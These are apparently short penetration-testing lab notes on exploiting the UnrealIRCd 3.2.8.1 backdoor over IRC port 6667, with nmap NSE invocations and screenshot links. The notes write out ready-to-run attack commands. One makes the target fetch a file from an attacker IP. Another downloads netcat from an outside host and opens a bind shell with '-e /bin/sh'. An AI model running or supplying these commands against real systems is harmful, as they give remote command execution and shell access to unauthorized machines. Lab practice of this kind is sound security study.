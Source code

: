 recon

![image](https://user-images.githubusercontent.com/83407557/182646813-1cf0090d-e378-4c69-8168-c0bf57aabdba.png)


searchsploit 

![image](https://user-images.githubusercontent.com/83407557/182646900-69397f1f-53cf-40ed-a66c-580023b4e641.png)

nse 

nmap -d -p6667 --script=irc-unrealircd-backdoor.nse 192.168.81.120

nmap -d -p6667 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='wget http://192.168.49.81/test' 192.168.81.120

verify that I can ping myself

![image](https://user-images.githubusercontent.com/83407557/182649442-ccf3b1f3-6737-4490-b6e5-e27eafd6ffc5.png)



nmap -d -p6667 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='wget http://www.javaop.com/~ron/tmp/nc && chmod +x ./nc && ./nc -l -p 4444 -e /bin/sh' <target>


  
Metasploit backdoor

![image](https://user-images.githubusercontent.com/83407557/182648064-e38d9e08-db8d-4f7a-b8f0-185c49eedd2d.png)

  
  
  
  making a revshell
  
 ![image](https://user-images.githubusercontent.com/83407557/182650425-b8191898-51d5-4b8c-a985-a2bc8107ad3b.png)

  
